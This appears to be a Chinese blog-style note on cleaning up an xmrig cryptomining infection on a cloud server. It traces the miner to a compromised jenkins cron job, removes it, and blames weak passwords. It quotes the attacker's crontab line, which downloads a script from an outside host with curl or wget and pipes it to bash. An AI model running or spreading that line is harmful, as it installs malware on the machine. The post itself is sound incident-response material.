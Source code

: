 # 服务器安全

## xmrig 挖矿

查看服务器 CPU 是否异常

```bash
$ top
PID   USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND
11347 root      20   0 2440420   2.0g   4012 S 201.0  14.0   2399:29 xmrig
```

发现 xmrig 占用很高。之后查云服务器发现这个挖矿程序，来源一个定时任务（crond）

![image-20240307103951770](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307103951770.png)

直接查看定时任务日志，发现都是 jenkins 和 postgres 的

```bash
$ cat /var/log/cron
```

![image-20240307104644743](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307104644743.png)

去查看定时任务

```bash
$ cd /var/spool/cron
$ ll
```

![image-20240307104352352](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307104352352.png)

果然，定时任务里面有 jenkins 和 postgres 的，postgres 的没问题

```bash
$ cat jenkins
*/5 * * * * (curl -fsSL cc.0889.org/cc.sh || wget -q -O - cc.0889.org/cc.sh) | bash >/dev/null 2>&1
```

jenkins 定时任务是挖矿的根源，它会去一个美国站点下载 shell 脚本之后执行，太可怕了...

![image-20240307110014013](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307110014013.png)

把 jenkins 定时任务删掉，之后再把挖矿程序删掉

```bash
$ rm -rf /var/tmp/.xmrig
```

![image-20240307105011834](https://gitee.com/lilyn/pic/raw/master/md-img/image-20240307105011834.png)



我的服务器才 2核2G，运行 Jenkins 会占用很大内存，也不太需要了，况且阿里云有阿里云效。索性直接把 Jenkins 删除了

```bash
$ userdel jenkins
$ rm -rf /var/lib/jenkins/
$ rm -rf /var/cache/jenkins/
# 查看用户，发现jenkins没了
$ cat /etc/passwd | grep jenkins
```

总结：其实最根本的问题还是在于 Jenkins 和 postgres 密码口令太弱了，轻易就被攻破了，最好是把密码设置的强一些（同理：mongodb、mysql、redis）
